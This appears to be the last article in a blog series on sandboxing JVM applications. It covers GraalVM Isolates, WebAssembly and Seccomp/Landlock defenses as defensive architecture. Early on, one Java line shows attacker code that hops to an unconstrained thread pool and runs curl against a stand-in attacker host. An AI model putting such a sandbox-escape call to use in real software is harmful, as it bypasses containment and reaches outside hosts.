


# Beyond the Thread: GraalVM Isolates, WebAssembly, and Self-Defending Applications

[](article5-graalvm.md)
[](../../README.md)

> **Series overview:** This is Part 6 — the final part — of our series on behavioral security for cloud-native applications. **What this part adds:** We address the two fatal structural limits of thread-scoped sandboxing, then build upward — GraalVM Isolates for heap isolation, WebAssembly for instruction-level isolation, and automated codegen portals to make these patterns practical. All demonstrations use the mazewall PoC library.

---

Throughout this series, we demonstrated how Linux kernel primitives (Seccomp and Landlock) can physically block malicious behavior on a per-thread basis inside the JVM. We saw them stop shell spawns, fileless malware, path traversal, and `io_uring` evasion.

But we must also be honest about the structural limits of **Tier 2 (Thread-Scoped)** containment inside a standard JVM.

## The Two Fatal Flaws of In-Process Sandboxing

### 1. The Concurrency Bypass (Thread Hopping)

If an attacker achieves arbitrary Java code execution (e.g., via SpEL injection or an insecure deserializer), they don't need to exploit the contained thread directly. They can write a single line:

```java
CompletableFuture.runAsync(() -> Runtime.getRuntime().exec("curl attacker.io"));
```

This delegates to the JVM's global `ForkJoinPool`. Those threads were created at JVM startup and **do not inherit** the worker thread's Seccomp filter. The attacker hops to an unconstrained thread and bypasses the sandbox entirely.

### 2. The ACE Shared-Memory Pivot

Even if concurrency bypass is addressed, all threads in a JVM share the same **heap** and **address space**. If an attacker triggers a native buffer overflow (via JNI/FFM) to achieve Arbitrary Code Execution (ACE), they can use native pointers to scan the process memory, find the stacks of unconstrained parent threads, and overwrite them — without ever issuing a syscall on the sandboxed thread.

## The Traditional Fix: Multi-Process Architecture

The security industry solved the "shared memory" problem 15 years ago: **use separate OS processes.** This is how Chrome isolates tabs and Android isolates apps. Separate processes do not share memory.

**The Problem for Java:** Spawning a new HotSpot JVM process takes 1–3 seconds and hundreds of megabytes of RAM. You cannot afford that per HTTP request or document parse.

## The First Solution: GraalVM Isolates

GraalVM Native Image includes a feature called **Isolates** (`org.graalvm.nativeimage.Isolates`). An Isolate creates multiple, completely independent Java execution environments within a single OS process.



### True Physical Heap Isolation
An Isolate gets a dedicated Java heap, a dedicated GC, and dedicated thread stacks. Even though two Isolates run inside the same Linux process, they cannot share Java objects. An attacker who compromises Isolate A physically cannot see or corrupt the Main Application's memory or Isolate B's memory.

### Sub-Millisecond Startup
Because the binary is already loaded, spawning a new Isolate takes **sub-milliseconds to low-milliseconds** (microsecond-scale raw overhead in optimized setups) — making it highly viable for per-request use.

### Compressed Pointers (High Density)
In Oracle GraalVM (free for production under the GFTC license), Isolates can use **Compressed References** (32-bit pointers on 64-bit architecture), dramatically shrinking memory footprint. You can run thousands of independent Isolates on a single server.

## The Micro-Sandbox: Isolates + Mazewall

Combining GraalVM Isolates with kernel-level Seccomp/Landlock enforcement gives a sandbox that rivals heavy virtualization (Firecracker, gVisor) but with function-call performance.

1. **The Trusted Host:** The main application handles HTTP routing and database connections.
2. **The Untrusted Task:** A request arrives to parse a potentially malicious XML document.
3. **Spawn the Isolate:** The main app spawns a new GraalVM Isolate in sub-milliseconds.
4. **Lock the Doors:** The very first line inside the Isolate calls `ContainedExecutors.installOnCurrentThread(Policy.PURE_COMPUTE)`.

    > [!WARNING]
    > **The Thread Poisoning Hazard:** Because Seccomp and Landlock filters are bound to the physical Linux OS thread and are strictly **irreversible**, applying a sandbox policy inside the Isolate permanently sandboxes the OS thread executing it. If the host invokes the Isolate synchronously on a primary worker thread (e.g., a Netty HTTP worker), that thread remains locked down even after the Isolate is destroyed. When returned to the pool, the poisoned thread will crash with `EPERM` on standard host operations.
    >
    > **Mitigation:** Execute the Isolate on a **dedicated throwaway thread** (spawned, runs the Isolate, then terminates) or within a dedicated sandboxed carrier pool.

5. **Execute & Destroy:** The Isolate parses the XML safely, returns the plain-text result via a C-style memory copy, and is instantly destroyed.

### Why is this significantly harder to escape?
* **Hardware/Memory Isolation:** The Isolate boundary prevents the ACE Pivot — the attacker's native pointers cannot address the main application's heap.
* **Physical Thread Isolation:** The Isolate has its own independent thread model and cannot submit tasks to the host's global `ForkJoinPool`. Thread-Hopping via `CompletableFuture.runAsync()` is structurally impossible — there is no shared pool to hop to.
* **Kernel Isolation:** The Mazewall Seccomp/Landlock boundary prevents spawning a shell, opening network sockets, or reading files.
* **W^X Enforcement:** The absence of a JIT compiler allows Seccomp to permanently block `PROT_EXEC`, making binary shellcode injection impossible.

---

## The Instruction-Level Sandbox: WebAssembly

GraalVM Isolates solve heap isolation and thread isolation. But there is a more radical level of security for the most untrusted workloads: **WebAssembly (Wasm).**

> [!NOTE]
> The Wasm ecosystem on the JVM is still maturing. What follows describes the direction the ecosystem is heading and early PoC patterns — not production-ready tooling for general use.

### The Ghost of JSM

For 25 years, the **Java Security Manager (JSM)** promised a world where you could run untrusted code safely by restricting its "permissions." JSM failed because it was **soft, dynamic, and complex** — it relied on stack-walking checks that could be bypassed by gadget chains. When JSM was finally removed, it left a massive void: *How do we run untrusted code inside the JVM now?*

WebAssembly is one serious candidate for an answer — not a direct replacement, but a spiritual successor in some ways.

### The Architecture of "Shared-Nothing"

WebAssembly was designed for the most hostile environment on earth: the web browser. Its creators abandoned the "object-sharing" model of the JVM and adopted a **shared-nothing, linear memory architecture**.

**Linear Memory:** When you load a Wasm module into your JVM (using a runtime like **Endive**[^bytecodealliance] or **GraalWasm**), the runtime allocates a contiguous block of bytes — e.g., a 10MB `ByteBuffer`. Every pointer inside the Wasm code is a 32-bit offset into this array. A Wasm module physically *cannot* address memory outside its box. It cannot see your JVM heap, database connections, or environment variables. Even a buffer overflow inside the module can only corrupt the module's own 10MB.

**Instruction-Level Capability:** In a standard JVM, a thread has "permission" to open a socket. In Wasm, a module **does not even have the CPU instructions** to open a socket. Wasm code can only call functions explicitly "imported" from the host. If you don't pass in a `connect` function, the capability simply doesn't exist in the module's universe.

### 2026: The Ecosystem Matures

**Endive (formerly Chicory):** In May 2026, the Chicory project was moved into the Bytecode Alliance and renamed **Endive**[^bytecodealliance] — now the industry-standard, vendor-neutral way to execute Wasm on the JVM.

**Chicory Redline & Panama FFM:** Chicory Redline further reduced the performance gap by using Panama FFM to call native Cranelift bindings, JIT-compiling Wasm modules to native machine code at runtime.

> [!NOTE]
> **The Performance Catch:** WebAssembly on the JVM currently carries a significant performance penalty for CPU-bound tasks compared to native JVM execution. Passing complex Java objects across the Wasm boundary requires heavy serialization; only primitives (ints, floats, memory offsets) pass efficiently. Wasm today is a choice for **absolute security and untrusted plugin isolation**, not peak throughput.

### The Killer Use Case: Sandboxing Deserialization

The most persistent vulnerability in the Java ecosystem is Insecure Deserialization (Jackson Polymorphic RCEs, Fastjson). The **Wasm Object Mapper pattern** offers a structural fix:

1. A fast, memory-safe Rust parser (`serde_json`) is compiled to Wasm.
2. Java copies the untrusted JSON string into the Wasm module's linear memory.
3. The Wasm parser validates the JSON. If it encounters a JSON bomb or overflow, the Wasm module traps — the host JVM is untouched.
4. The Wasm module returns a flat, safe binary representation; Java instantiates an immutable `Record`.

Because the Wasm parser has **no access to the JVM classpath**, it is physically impossible to trigger a Java gadget chain (like Log4Shell).



### The Component Model: The Future of `readValue`

The final frontier is the **Wasm Component Model (WIT)** — the industry's effort to make Wasm modules automatically map their output to host language types. While the foundation is present in Endive today, the "Jackson experience" (automatically mapping Wasm data directly into Java POJOs) is still a work in progress as of 2026. Production workloads use stable **WASI Preview 1**[^wasi] and manual bindings or Protobuf to bridge the memory gap.

### The Pure-Java Dream: TeaVM + Endive

What if you want to write plugin logic in Java, not Rust? By combining **TeaVM**[^teavm] (which compiles Java bytecode to Wasm) and **Endive**[^bytecodealliance] (which executes Wasm on the JVM), you can write all plugin code in Java while running it under Wasm-level isolation.

> [!NOTE]
> TeaVM's Wasm target has significant limitations: no threading, limited standard library support, and high serialization overhead. This pattern is experimental and better suited to simple, stateless logic than full-featured business code.

---

## Bridging the Gap: Portals, Sidecars, and Codegen

The central unsolved **ergonomics problem** of all these isolation patterns is developer friction. Writing the serialization glue code, managing the throwaway threads, and choosing the right isolation layer correctly is not something most developers will do by default.

The Go research project **[glassbox-go](https://github.com/Pilleo/glassbox-go)**[^glassbox] explores one direction: automated code generation that acts as a "portal" to a sandboxed execution space, making the isolation transparent to the calling code.

A similar strategy could work for sidecar isolation: a build plugin that generates type-safe client code for a highly restricted sidecar process, so that to the developer it looks like a normal library call — but under the hood the execution is serialized and offloaded to an isolated OS process.

This tooling does not yet exist in production-ready form. It is the central engineering opportunity for the next phase of this work.

---

## The Double Sandbox: Mazewall + Wasm

*"If Wasm is so safe, why do I still need Seccomp and Landlock?"*

Because the **Wasm runtime itself** is software. Runtimes like Endive can have implementation bugs. This is where every layer of this series converges:

1. **Wasm (The Guest):** Provides high-density isolation for the untrusted logic.
2. **Mazewall (The Host):** Wraps the thread executing the Wasm runtime. If a bug is found in the runtime's parser, Mazewall's Seccomp filter is the final backstop preventing that exploit from spawning a shell or accessing the filesystem.

> [!CAUTION]
> **The JIT vs. W^X Conflict:** If you use Chicory Redline (which JIT-compiles Wasm via Panama FFM), the executing thread must have permission to allocate executable memory. This introduces a minor JIT security gap on that thread. To enforce absolute W^X memory security (blocking `PROT_EXEC` via `Policy.PURE_COMPUTE`), you must run the Wasm engine in **interpreter mode** — slower, but requires zero executable memory allocation.

---

## Choosing Your Weapon

| Workload Type | Recommended Sandbox | Why? |
| :--- | :--- | :--- |
| **Untrusted Native Libs (JNI/FFM)** | **Mazewall (Tier 1)** | Stops native buffer overflows from calling `execve`. Tier 2 is bypassed via shared-memory pivot; only Tier 1 (process-wide) closes it. |
| **Untrusted Java Plugins** | **GraalVM Isolates** | Separates heaps and thread models while maintaining full JVM language features. |
| **Untrusted 3rd-party Scripts / Data** | **WebAssembly (Wasm)** | Absolute "shared-nothing" isolation. No shared-memory pivot risk. Physically no access to the host classpath. |
| **Highest Risk (Legacy Code / Unknown)** | **Separate OS Process + Tier 1** | The absolute backstop. Total OS-level separation. |

### Sandbox Trade-off Comparison

To select the right architecture, we can compare these sandboxing methods across key runtime characteristics:

| Sandbox Type | Performance | Memory Overhead | Classpath Access | W^X Security | Thread Isolation |
| :--- | :--- | :--- | :--- | :--- | :--- |
| **Mazewall (Thread)** | High (Native) | Zero | ✅ Yes (Shared) | ⚠️ Thread-only | ❌ Vulnerable to Hopping |
| **GraalVM Isolate** | High (Native) | Low (Compressed refs) | ❌ No (Isolated) | ✅ Strong (AOT) | ✅ Strong (Separate heaps) |
| **WebAssembly** | Medium/Low | Medium (Linear heap) | ❌ No (None) | ✅ Strongest (Interpreter) | ✅ Absolute (No shared pool) |
| **Separate Process / Sidecar** | Low (RPC latency) | High (New JVM overhead) | ❌ No (None) | ✅ Strongest (Process) | ✅ Absolute (Process barrier) |

### What You Can Do Today: A Pragmatic Roadmap

While the systematic pipelines (dynamic SBoB generation, compiler integration) are still being built, backend developers can take concrete, pragmatic steps today to secure their applications:

1. **Deploy eBPF Telemetry (Kubescape)**: Do not wait for sandboxing enforcement tools. Install **[Kubescape](https://kubescape.io)** (an open-source Kubernetes security and compliance platform) or other unprivileged eBPF-based tracing tools (like **[Inspektor Gadget](https://www.inspektor-gadget.io/)**) in your staging environments. Even in audit-only mode, these tools gather baseline syscall and network telemetry that you previously ignored. This data will be invaluable when you begin mapping your application's behavioral boundaries.
2. **Prioritize AOT & Reflection-Free Dependencies**: When choosing serialization formats, frameworks, or utility libraries, prioritize reflection-free options (such as GraalVM-compatible components, Micronaut serialization, or DSL-JSON) and everything AOT(Hi GraalVM). Avoiding dynamic classloading and runtime reflection makes call graphs statically predictable, simplifying future sandboxing and hardening.
3. **Utilize NsJail or Bubblewrap**: For legacy workloads, untrusted third-party binaries, or high-risk processes inside containers, do not wait for in-process sandboxing. Wrap execution in mature, production-ready process isolation boundaries like **[NsJail](https://github.com/google/nsjail)** or **[Bubblewrap](https://github.com/containers/bubblewrap)**. They provide robust kernel-level namespace and seccomp isolation from the outside today.

---

## The Developer Tooling Pipeline We Need

To make secure sandboxing and behavioral containment practical for typical backend teams, the industry must transition from manual assembly configurations to a unified **Developer Tooling Pipeline**. The vision maps to a continuous lifecycle:

```
Write Code → Profile (Integration Tests) → Generate SBoB → Lint in CI/CD → Enforce at Runtime → Violations Monitor
```

1. **Integrated Profiling:** Syscall profiling shouldn't be a separate command-line chore. It must integrate into testing frameworks (e.g., as a JUnit extension) to record required system calls and file path footprints during local developer test runs.
2. **Standardized Contracts:** SBoB definitions must be standardized in a machine-readable format (e.g. `.sbob.json` aligning with the emerging k8sstormcenter/bob spec) shipped alongside libraries directly by vendor authors.
3. **CI/CD Static Linting:** Build plugins (like Maven or Gradle task linters) should compile call-graphs statically, verify that high-risk Red Zone libraries are wrapped in `ContainedExecutors`, and fail the build if the active policy does not cover runtime requirements.
4. **Transparent Portals:** Sidecar portals and code generators must automate serialization, offloading tasks to isolated processes or Wasm interpreters automatically via simple method annotations (e.g., `@Isolated`).
5. **Cross-Language Porting:** Port `mazewall` and sandbox-portal libraries to other backend runtimes (such as Go/Goroutines scheduler integration, Node.js native addons, and Python Rust extensions) to enable thread/task-level unprivileged sandboxing across the entire backend ecosystem.

---

## Conclusion: The Maze is Complete

Over these six articles, we moved from a "Perimeter Fence" model to a "Multi-Layered Maze."

Modern cloud-native security is no longer about blocking IPs or scanning for CVEs. It is about **Behavioral Integrity:**
* **SBoB** declares what code is allowed to do.
* **Mazewall** lets the Linux kernel enforce those rules.
* **GraalVM Isolates** physically separate heaps so that even successful exploits have nowhere to pivot.
* **WebAssembly** removes the capability to do harm at the instruction level.

None of these tools solve the problem alone. The Maze works because the layers interlock. An attacker who breaks one layer finds themselves facing the next immediately.

The era of the "Open Field" JVM is over. The era of the **Hardened Runtime** has begun — and the tooling to make it accessible to every backend developer is the work still ahead.

---

## Collaboration & Outreach

If you are working on syscall attribution tooling for GraalVM native binaries, automated per-dependency SBoB generation using Inspektor Gadget and fuzzing pipelines, or build plugins to merge and prune dependency SBoBs, the author is interested in collaborating on these engineering challenges.

* **Instrument your CI pipeline with Inspektor Gadget** and start profiling your application's syscall footprint — regardless of whether you run GraalVM. Every application benefits from knowing its actual runtime footprint.
* **Watch and contribute to the emerging Software Bill of Behavior (SBoB) specification:** Visit [billofbehavior.com](https://billofbehavior.com) and follow the open specification work at [github.com/k8sstormcenter/bob](https://github.com/k8sstormcenter/bob).
* **Start a discussion or send feedback:** The repository is the right place to continue the argument.

---

*This concludes our series on Behavioral Security for Cloud-Native Applications. To explore the code and primitives discussed, visit the [mazewall repository](https://github.com/Pilleo/jseccomp).*

[^bytecodealliance]: Endive (formerly Chicory) in the Bytecode Alliance. https://bytecodealliance.org/
[^wasi]: WASI Preview 1 Specification. https://wasi.dev/
[^teavm]: TeaVM Java-to-WebAssembly compiler. https://teavm.org/
[^glassbox]: glassbox-go project page. https://github.com/Pilleo/glassbox-go